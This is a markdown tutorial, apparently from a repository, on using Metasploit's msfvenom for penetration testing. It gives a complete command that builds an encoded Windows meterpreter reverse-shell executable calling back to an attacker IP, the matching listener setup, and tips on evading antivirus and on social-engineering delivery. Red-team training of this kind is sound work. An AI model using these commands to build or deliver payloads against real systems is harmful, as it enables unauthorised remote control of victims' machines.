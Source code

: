 # 📦 Creating Malicious Payloads with `msfvenom` in Metasploit

This document provides an overview of using **msfvenom** — a part of the Metasploit Framework — to create and encode malicious payloads for penetration testing and red teaming purposes.

---

## 🧠 What is `msfvenom`?

`msfvenom` is a command-line tool used to:
- Generate payloads
- Encode payloads to evade detection
- Output them in executable or transformable formats

It merges the capabilities of `msfpayload` and `msfencode`.

---

## 🔑 Key Options in `msfvenom`

| Option | Description |
|--------|-------------|
| `-p`   | Specifies the Metasploit **payload** to use (e.g., `windows/meterpreter/reverse_tcp`) |
| `-f`   | Selects the **format** of the payload (e.g., `exe`, `elf`, `raw`, `c`, `python`) |
| `-e`   | Chooses an **encoder** to obscure the payload (e.g., `x86/shikata_ga_nai`) |
| `-a`   | Sets the **architecture** (e.g., `x86`, `x64`, default: `x86`) |
| `-x`   | Embeds payload in a **template file** (e.g., a legitimate `.exe` application) |
| `-l`   | **Lists** available payloads, encoders, formats, etc. |

---

## 📄 Listing Options with `-l`

To view available options, use `-l`:

```bash
msfvenom -l payloads     # List all payloads
msfvenom -l formats      # List all output formats
msfvenom -l encoders     # List all encoders
msfvenom -l archs        # List supported architectures
msfvenom -l platforms    # List target platforms
```

---

## 🗃️ Types of Output Formats

`msfvenom` supports two categories of formats:

### 1. Executable Formats
Used to create **executable payloads** that run directly on a system:
- `exe`, `elf`, `apk`, `msi`, `mach-o`, etc.

### 2. Transform Formats
Used to generate **code-based payloads** for custom exploits:
- `c`, `python`, `perl`, `ruby`, `bash`, `vba`, etc.

```bash
msfvenom -l formats
```

---

## 🔐 Encoders: Obscuring the Payload

Encoders make payloads less detectable by AV solutions.

```bash
msfvenom -l encoders
```

### Notable Encoder:
- `x86/shikata_ga_nai`: The most effective and only encoder rated "excellent"
  - Meaning: *"nothing can be done about it"* in Japanese
  - Polymorphic encoder; used even in APT attacks

Other examples:
- `x86/countdown`
- `cmd/powershell_base64`
- `x64/zutto_dekiru`

Encoders are ranked like exploits:
- Excellent
- Good
- Manual

---

## 🖥️ Platforms

Platforms refer to the **target operating system** or environment:
```bash
msfvenom -l platforms
```

Examples:
- `windows`, `linux`, `android`, `osx`, `php`, `java`, `python`, `netware`, `firefox`

---

## ⚙️ Example: Create a Reverse Shell Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 \
  LPORT=4444 \
  -e x86/shikata_ga_nai \
  -i 5 \
  -f exe \
  -o evil_payload.exe
```

### Explanation:
- `-p` → Payload
- `LHOST` / `LPORT` → Attacker IP and listening port
- `-e` → Encoder used
- `-i` → Number of encoding iterations
- `-f` → Output format
- `-o` → Output file name

---

## 🧲 Listener Setup in Metasploit

After generating the payload, start a handler in Metasploit:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

Once the victim runs the payload, you’ll receive a Meterpreter session.

---

## 🧪 Use Cases

- **Social engineering**: Send disguised executables to targets
- **Physical access**: Run malicious USB payloads
- **Post-exploitation**: Deliver follow-up backdoors or stagers
- **Obfuscation**: Bypass antivirus and confuse malware analysts

---

## ⚠️ Legal Warning

> This tool is intended **only for legal and educational purposes**. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.

---

## 📚 References
- [Metasploit Documentation](https://docs.metasploit.com/)
- [Offensive Security - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
